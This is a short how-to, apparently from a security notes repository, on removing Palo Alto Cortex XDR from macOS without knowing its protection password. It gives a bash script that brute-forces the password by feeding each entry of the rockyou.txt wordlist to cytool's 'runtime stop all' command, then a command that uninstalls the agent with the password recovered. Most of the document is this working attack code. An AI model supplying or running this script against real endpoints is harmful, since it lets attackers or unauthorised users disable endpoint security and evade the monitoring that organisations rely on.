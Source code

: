 # MacOS - Uninstall Cortex XDR without know password
## Source
https://0xsp.com/security%20research%20%20development%20srd/combined-attacks-against-xdr/

https://mrd0x.com/cortex-xdr-analysis-and-bypass/
## Objective
Try to find the password for stop the service and uninstall Cortex XDR, with force brute attack.
## Prerequisits
Admin passwords in MacOS.
Download rockyou.txt password list.
## Funding the password
Run the script with admin privileges(sudo):
```bash=
#!/bin/bash

FILENAME="rockyou.txt"

LINES=$(cat $FILENAME)

for LINE in $LINES
do
	echo "Trying Password: $LINE"
	(echo "$LINE" | /Library/Application\ Support/PaloAltoNetworks/Traps/bin/cytool runtime stop all) 2>/dev/null && echo "Password found: $LINE" && exit 0
done
```
## Uninstalling Cortex XDR
Execute:
```bash=
sudo /Library/Application\ Support/PaloAltoNetworks/Traps/bin/traps_uninstaller_tool <the password found>
```
